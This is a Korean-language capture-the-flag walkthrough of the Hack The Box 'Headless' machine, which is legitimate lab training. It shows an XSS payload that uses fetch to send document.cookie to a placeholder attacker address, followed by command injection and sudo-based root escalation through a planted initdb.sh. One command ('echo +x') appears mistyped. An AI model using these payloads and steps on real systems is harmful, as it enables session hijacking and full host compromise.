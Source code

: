 ```yaml
---
title: Hack The Box - headless
date: 2024-04-25
author: glasses96
categories: [Hack The Box]
tags: [Hack The Box, headless, XSS, Command Injection, privilege escalation]
pin: true
math: true
mermaid: true
---
```


> **Hack The Box - Headless 문제를 풀어 봅시다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## Port Scanning
Port Scanning 결과는 22번(SSH)와 5000번 포트가 열려있습니다.

![port_scan](/assets/post/59/1.png)

## XSS
5000번 포트로 접근 시 웹 페이지가 보입니다.

![WEB](/assets/post/59/2.png)

For questions 버튼을 누르면 이름, 폰번호, contents등을 적어 `Submit`을 할 수 있습니다.  
다만 content에 `<>`가 들어가게 되면 `hacking attempt detected`가 되어 관리자에게 전달 된다고 합니다.  
패킷의 내용을 보면 요청 헤더가 들어 간 것을 확인할 수 있습니다.

![submit](/assets/post/59/3.png)

![detected](/assets/post/59/4.png)

Submit 할때 요청 헤더에 `XSS` 구문을 넣으면 XSS가 동작하는 것을 확인할 수 있습니다.  

![host_xss](/assets/post/59/5.png)

### Fetch to Cookie 
해당 부분에서 많은 시간을 걸렸는데 평소 XSS 점검을 하게 되면 보통 `location.href, window.open`등 함수를 이용하여 페이지가 이동되는 증적을 찍었는데 해당 문제에서는 동작을 하지 않았습니다.  
문제에도 `headless` 라는 힌트가 있었고 아마 봇이 headless로 인해 해당 함수가 동작하지 않은 것을 알 수 있습니다.

headless 모드에서도 동작하는 방법 중 하나가 바로 `fetch`를 이용하는 것입니다.  
- <img src=x onerror=fetch("http://{attacker_address}/cookie="+document.cookie);>

![XSS](/assets/post/59/6.png)

## Directory Busting

admin cookie를 탈취에 성공하고도 페이지의 달라진 점을 확인할 수 없었습니다.  
그래서 `dirb` 라는 Directory Busting 도구를 이용하니 `dashboard` 페이지를 찾을 수 있습니다.

![dirb](/assets/post/59/7.png)

## Coomand Injection 
dashboard 페이지에 접근하면 `Generate Report` 버튼을 눌러 응답을 확인해보면 `system?` 어쩌구 하는 것을 보아 Command Injection 관련된 것을 추측하고, `sleep 20`를 주어 Command가 실행되는 것을 확인할 수 있습니다.  
cat 명령으로 user flag를 얻을 수 있습니다.
![dashboard](/assets/post/59/8.png)

![user.txt](/assets/post/59/9.png)

## Local Privilege Escalation

`sudo -l` 명령어를 통해 NOPASSWD가 적용된 `syscheck` 명령어를 확인할 수 있습니다.

![syscheck](/assets/post/59/10.png)

syscheck 파일을 보면 pgrep으로 initdb.sh 검색 후 DB 서비스가 실행하지 않으면 해당 파일을 실행하는 것을 알 수 있습니다.  
syscheck 실행 시 `Database service is not running. Starting it...` 응답으로 나오는 것을 보아 `initdb.sh` 파일을 만들어 권한상승이 가능한 것을 확인했습니다.
```sh
 Systems are up and running!
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

리버스 쉘을 연결하고 아래의 명령어를 차례대로 입력 시 루트 권한을 획득 할 수 있습니다.

- `echo "/bin/bash" > initdb.sh`
- `echo +x initdb.sh`
- `sudo syscheck`

![root_shell](/assets/post/59/11.png)


## 후기
`fetch`나 `XMLHttpRequest`를 알고는 있었는데 바로바로 생각이 나지 않았습니다...  
앞으로 XSS 점검 시에는 fetch로도 증적을 남겨야겠습니다!!

sudo의 nopasswd로 인한 권한 상승 케이스는 사실 실무에서는 많이 발견하기는 어렵지만 그래도 언제봐도 신기한거 같습니다. :D 